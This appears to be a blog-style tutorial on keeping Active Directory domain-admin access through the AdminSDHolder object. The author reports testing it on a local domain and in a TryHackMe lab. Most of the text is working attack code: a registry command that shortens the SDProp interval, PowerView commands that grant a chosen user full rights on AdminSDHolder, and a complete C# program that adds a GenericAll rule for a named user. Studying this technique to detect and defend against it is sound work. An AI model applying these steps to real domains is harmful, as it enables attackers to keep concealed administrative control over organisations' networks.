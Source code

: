 # Adding ourselves to AdminSDHolder

In this post, we will be discussing a domain persistence technique.

## AdminSDHolder Object
AdminSDHolder container acts as ACL template for many protected users and accounts in Active Directory. For every 60 minutes SDProp process applies these ACE's of AdminSDHolder object. This means if we add an user with All Permissions to this object then we can add ourselves to the 'Domain Admins' group. Also we need Domain Administrator privileges to add an user.

Distinguised Name for AdminSDHolder object is `CN=AdminSDHolder,CN=System,DC=tech69,DC=local`

To view in the "Active Directory Users and Computers" -> Click on View -> Show Advanced

## Changing the SDProp interval via registry

We can set it to any number of seconds we want

```
REG ADD HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /V AdminSDProtectFrequency /T REG_DWORD /F /D 100
```

## Adding User via PowerView

Import poweview and use command Add-objectacl

```powershell
import-module powerview.ps1


Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName test1 -Verbose -Rights All
```

To check if we are part of Domain Admins or not, we can use net command or

```powershell
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference -match 'test1'}
```

## Adding User via C#

I have explained this code in my youtube channel and here is the video link
[Domain Persistence via AdminSDHolder](https://youtu.be/4TMpwKBTFq0)

Also i have tested this on my local AD and in tryhackme's throwback network. You can configure this program to receive command line arguments to add specific user. 

```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.DirectoryServices;
using System.DirectoryServices.ActiveDirectory;
using System.DirectoryServices.AccountManagement;
using System.Security.Principal;
using System.Security.AccessControl;

namespace ADACL101
{
    class Program
    {
        static void Main(string[] args)
        {

            DirectoryEntry de = new DirectoryEntry("LDAP://CN=AdminSDHolder,CN=System,DC=THROWBACK,DC=local");
            DirectorySearcher ds = new DirectorySearcher();
            ds.SearchRoot = de;
            foreach(SearchResult sr in ds.FindAll())
            {
                DirectoryEntry holder = sr.GetDirectoryEntry();
                ActiveDirectorySecurity ads = holder.ObjectSecurity;
                AuthorizationRuleCollection arc = ads.GetAccessRules(true, true, typeof(NTAccount));
                foreach(AuthorizationRule a in arc)
                {
                    Console.WriteLine(a.IdentityReference.ToString());
                }
                PrincipalContext pc = new PrincipalContext(ContextType.Domain);
                UserPrincipal user = UserPrincipal.FindByIdentity(pc, "BlaireJ");
                ActiveDirectoryAccessRule ar = new ActiveDirectoryAccessRule(user.Sid, ActiveDirectoryRights.GenericAll, AccessControlType.Allow);
                ads.AddAccessRule(ar);
                holder.CommitChanges();
            }
        }
    }
}

```

![Image](/Pasted image 20220423182151.png)

## Manually triggering SDProp

We can manually trigger these replication changes via ldp.exe 

This microsoft doc explains very clearly -> [Protected Accounts and Groups](https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/appendix-c--protected-accounts-and-groups-in-active-directory)
